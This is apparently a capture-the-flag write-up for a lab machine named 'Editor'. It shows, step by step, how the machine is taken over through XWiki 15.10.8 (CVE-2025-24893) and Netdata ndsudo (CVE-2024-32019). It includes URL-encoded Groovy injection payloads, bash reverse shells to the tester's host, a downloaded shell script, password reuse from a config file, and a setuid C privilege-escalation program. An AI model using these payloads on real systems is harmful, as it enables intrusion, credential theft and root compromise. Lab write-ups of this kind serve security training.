


# Editor

## First steps

First thing we will do is the classic `nmap` scan to see which ports are exposed on the target.

```bash
$ nmap 10.10.11.80
Starting Nmap 7.93 ( https://nmap.org ) at 2025-12-10 14:31 CET
Nmap scan report for 10.10.11.80
Host is up (0.034s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

As usual, there is a SSH server on port 22, and we also have 2 HTTP servers on port 80 and 8080.

It seems to be a classic web machine but now we have 2 websites to investigate. Let's first check the port 80.

```bash
$ curl -v 10.10.11.80 
<SNIP>
< Location: http://editor.htb/
<SNIP>
```

The website use a domain name **editor.htb**. So first we have to add the following line to the `/etc/hosts`:

```
10.10.11.80     editor.htb
```

And now we can go to http://editor.htb on our browser to see what it looks like.

## Port 80: SimplistCode 

When we first arrive on the website hosted on port 80, here is what we have:


Here we don't have a lot of directions to go. First, the **About** section is redirecting to `/about` but we have an error 404.

The website is about a code editor, SimplistCode, and we have 2 buttons to download a Debian and a Windows version of it.

And then there is the **Docs** section. It redirects to a `wiki.editor.htb/` subdomain, so we will have to add it to our `/etc/hosts` too.

```
10.10.11.80     wiki.editor.htb editor.htb
```

On this subdomain there is a **XWiki** which contains documentation about SimplistCode. We have access to only 2 pages, the main page and the installation page.





This is not very interesting for us, however we can also login on the xwiki. But for now we have no credentials to authenticate...

As I was blocked I tried to see what does the port 8080 host... And it was the same xWiki.

## A vulnerable XWiki

By looking closely to the XWiki I noticed that the version was mentioned.


So the XWiki's version is **15.10.8**. By searching on Google I found that this version is vulnerable to [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893) which allow an unauthenticated user to do a remote code execution using a vulnerable `text` URL parameter.

So we have to pass to `text` a payload like this:

```
}}}}{{{{async async=false}}}}{{{{groovy}}}}"<our-command>".execute(){{{{/groovy}}}}{{{{/async}}}}
```

Also it has to be encoded into URL format.

We will test if the page is really vulnerable with a first payload. I launched a python HTTP server on my machine:

```bash
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now with a first payload we will try to curl our server to see if the RCE is really working.

Here is our payload:

```
}}}}{{{{async async=false}}}}{{{{groovy}}}}"curl http://<my-ip>:8000/croissant".execute(){{{{/groovy}}}}{{{{/async}}}}
```

I encoded it to URL format and now we can test if the website is really vulnerable to CVE-2025-24893.

```bash
$ curl http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22curl%20http%3A//10.10.15.103%3A8000/truc%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
```

And on my HTTP server...

```bash
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.80 - - [10/Dec/2025 16:43:23] code 404, message File not found
10.10.11.80 - - [10/Dec/2025 16:43:23] "GET /croissant HTTP/1.1" 404 -
```

It worked ! So now we should be able to craft a payload with a reverse shell and gain access to the machine.

## Reverse shell

I launch a listener on my machine.

```bash
$ nc -lvnp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

And now let's use this payload:

```
}}}}{{{{async async=false}}}}{{{{groovy}}}}"bash -i >& /dev/tcp/<my-ip>/9001 0>&1".execute(){{{{/groovy}}}}{{{{/async}}}}
```

Again we encode the payload in URL format and we can execute the reverse shell.

```bash
$ curl http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22bash%20-i%20%3E%26%20/dev/tcp/10.10.15.103/9001%200%3E%261%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
```

And... it didn't work. So I tried the same but encoding the reverse shell in base64.

```
}}}}{{{{async async=false}}}}{{{{groovy}}}}"echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4xMDMvOTAwMSAwPiYx | base64 -d | bash".execute(){{{{/groovy}}}}{{{{/async}}}}
```

Again I encoded the payload in URL format and tried to activate the reverse shell, but it still didn't work.

After some research I learnt that Groovy may not handle redirections or pipeline in system commands. So the other method I found would be to upload a file containing a reverse shell and execute it.

So I created the following `rev_shell.sh` file on my machine.

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.15.103/9001 0>&1
```

I launched a HTTP server on my machine and try to curl it on the target:

```bash
$ curl http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22curl%20http%3A//10.10.15.103%3A8000/rev_shell.sh%20-o%20/tmp/rev_shell.sh%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
```

And it worked, my server received a GET request so now my revshell should be in the `/tmp` folder of the target.

I added the permissions to execute the script: 

```bash
$ curl http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22chmod%20777%20/tmp/rev_shell.sh%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
```
And then executed it:

```bash
$ curl http://wiki.editor.htb/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7B%7Basync%20async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7D%22/tmp/rev_shell.sh%22.execute%28%29%7B%7B/groovy%7D%7D%7B%7B/async%7D%7D
```

And when looking at my listener...

```bash
$ nc -lvnp 9001
<SNIP>
xwiki@editor:/usr/lib/xwiki-jetty$ id
uid=997(xwiki) gid=997(xwiki) groups=997(xwiki)
```

It worked ! We now have a shell as xwiki.

## Get user privilege

Now that we are on the machine we have to get user access. When looking at the users with a home directory:

```bash
xwiki@editor:/usr/lib/xwiki-jetty$ ls -l /home/
total 4
drwxr-x--- 3 oliver oliver 4096 Jul  8 08:34 oliver
```

We see that there is a user `oliver`, it should be the next step for the room but for now I have no idea on how to get access to the machine as him.

After looking around, I realized that there may be a database on the machine as we have a website. It is confirmed when looking at the open ports on the machine.

```bash
xwiki@editor:/usr/lib/xwiki-jetty$ ss -tlnup
Netid State  Recv-Q Send-Q      Local Address:Port  Peer Address:PortProcess                         
<SNIP>                                 
tcp   LISTEN 0      151             127.0.0.1:3306       0.0.0.0:*                                   
<SNIP> 
```

The port 3306 is the default port for MySQL databases. Knowing that, I search where does the database connection informations are located on a XWiki local installation and I found 2 potential files: **xwiki.cfg** and **hibernate.cfg.xml**. So let's try to find them on the machine:

```bash
xwiki@editor:/usr/lib/xwiki-jetty$ find / -name xwiki.cfg 2> /dev/null
/etc/xwiki/xwiki.cfg
/usr/lib/xwiki/WEB-INF/xwiki.cfg
/usr/share/xwiki/default/xwiki.cfg
xwiki@editor:/usr/lib/xwiki-jetty$ find / -name hibernate.cfg.xml 2> /dev/null
/etc/xwiki/hibernate.cfg.xml
/usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
/usr/share/xwiki/templates/mysql/hibernate.cfg.xml
```

And when looking for password in all those files I found something interesting:

```bash
xwiki@editor:/usr/lib/xwiki-jetty$ grep pass /usr/lib/xwiki/WEB-INF/hibernate.cfg.xml
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
```

The password `theEd1t0rTeam99` seems to be what we are searching for. Before trying to connect to the database with this, I checked if it is a ssh credential for `oliver`.

```bash
$ nxc ssh editor.htb -u oliver -p "theEd1t0rTeam99"
<SNIP>
SSH         10.10.11.80     22     editor.htb       [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.13
SSH         10.10.11.80     22     editor.htb       [+] oliver:theEd1t0rTeam99  Linux - Shell access!
```

And YES ! We can authenticate as `oliver` with this password using ssh.

```bash
$ ssh oliver@editor.htb 
oliver@editor.htb's password: theEd1t0rTeam99
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-151-generic x86_64)
<SNIP>
oliver@editor:~$
```

> The **user.txt** can be found in /home/oliver

## Netdata for privilege escalation

When checking the permissions of `oliver` I noticed an unusual group.

```bash
oliver@editor:~$ id
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```

And I think this is important because when I was searching for binaries owned by root with SUID permissions I found this:

```bash
oliver@editor:~$ find / -perm -u=s -user root 2> /dev/null
/opt/netdata/usr/libexec/netdata/plugins.d/cgroup-network
/opt/netdata/usr/libexec/netdata/plugins.d/network-viewer.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/local-listeners
/opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
/opt/netdata/usr/libexec/netdata/plugins.d/ioping
/opt/netdata/usr/libexec/netdata/plugins.d/nfacct.plugin
/opt/netdata/usr/libexec/netdata/plugins.d/ebpf.plugin
<SNIP>
```

All of this files are executable by the group `netdata`, so if one of them is vulnerable we could be able to execute code as root.

So first I tried to get the version of netdata that is running on the machine. To do this we can get informations from the Netdata's web interface that is supposed to run on port 19999.

```bash
oliver@editor:~$ curl -s http://localhost:19999/api/v1/info | grep version
    "version":"v1.45.2",
    "os_version":"22.04.5 LTS (Jammy Jellyfish)",
    "os_version_id":"22.04",
    "container_os_version":"none",
    "container_os_version_id":"none",
    "kernel_version":"5.15.0-151-generic",
        "_os_version":"22.04.5 LTS (Jammy Jellyfish)",
        "_kernel_version":"5.15.0-151-generic",
        "_mqtt_version":"5",
        "version":1,
```

So netdata's version is **1.45.2**. After searching this on Google I found the **[CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019)** which affects versions below 1.45.3.

To clarify what does the CVE do, the `ndsudo` plugin can execute some commands with root privileges. However it's search paths are the ones from the PATH environment variable that is writeable by us. For example:

```bash
oliver@editor:/opt/netdata/usr/libexec/netdata/plugins.d$ ./ndsudo -h
<SNIP>
The following commands are supported:

- Command    : nvme-list
  Executables: nvme 
  Parameters : list --output-format=json
```

Here `ndsudo` is able to execute `nvme` with root privilege. However, if we modify PATH by including our current directory and we create an executable named `nvme` it will be executed with the permission SUID.

```bash
oliver@editor:~$ nano nvme
oliver@editor:~$ chmod 777 nvme
oliver@editor:~$ cat nvme
#!/bin/bash

echo "Hacked soon ;)"
id
oliver@editor:~$ export PATH=.:$PATH
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
Hacked soon ;)
uid=1000(oliver) gid=1000(oliver) groups=1000(oliver),999(netdata)
```

Here you can see that our script is executed instead of the real `nvme` executable. Also notice that our script is not really run as `root`. This is because `ndsudo`, even if it has the permissions to do it, doesn't set it's uid to 0 automatically. So we have to build an executable that changes the process uid to 0 (which is `root` uid) and then every code that we will write will be executed as `root`.

## Crafting the payload and become root

I wrote this code in C on my machine:

```
// pawn.c
#include <unistd.h>
#include <stdlib.h>

int main(void) 
{ 
        setuid(0);
        system("cp /bin/bash /tmp/pwned; chmod u+s /tmp/pwned");
}
```

I compiled it and uploaded it on the machine using `scp` as we have ssh access.

```bash
$ gcc pawn.c -o nvme
$ scp nvme oliver@editor.htb:/home/oliver/nvme
oliver@editor.htb's password: theEd1t0rTeam99
nvme                                                      100%   16KB 231.5KB/s   00:00
```

And now if we run the same command as before:

```bash
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
oliver@editor:~$ ls -l /tmp/
total 1392
srwxrwx--- 1 netdata netdata       0 Dec 11 04:00 netdata-ipc
-rwsr-xr-x 1 root    oliver  1396520 Dec 11 17:23 pwned
drwx------ 3 root    root       4096 Dec 11 04:00 systemd-private-6eaf371ce0864b8988eeb9cb53bd1777-ModemManager.service-h2kLKW
drwx------ 3 root    root       4096 Dec 11 04:00 systemd-private-6eaf371ce0864b8988eeb9cb53bd1777-systemd-logind.service-P5AI8e
drwx------ 3 root    root       4096 Dec 11 04:00 systemd-private-6eaf371ce0864b8988eeb9cb53bd1777-systemd-resolved.service-WssWYf
drwx------ 3 root    root       4096 Dec 11 04:00 systemd-private-6eaf371ce0864b8988eeb9cb53bd1777-systemd-timesyncd.service-MzPaAo
drwx------ 3 root    root       4096 Dec 11 07:14 systemd-private-6eaf371ce0864b8988eeb9cb53bd1777-upower.service-tkexlc
drwx------ 3 root    root       4096 Dec 11 04:00 systemd-private-6eaf371ce0864b8988eeb9cb53bd1777-xwiki.service-QSPpwM
drwx------ 2 root    root       4096 Dec 11 04:01 vmware-root_611-3980232955
oliver@editor:~$ /tmp/pwned -p
pwned-5.1# whoami
root
```

We are `root` !

> **root.txt** can be found in /root/

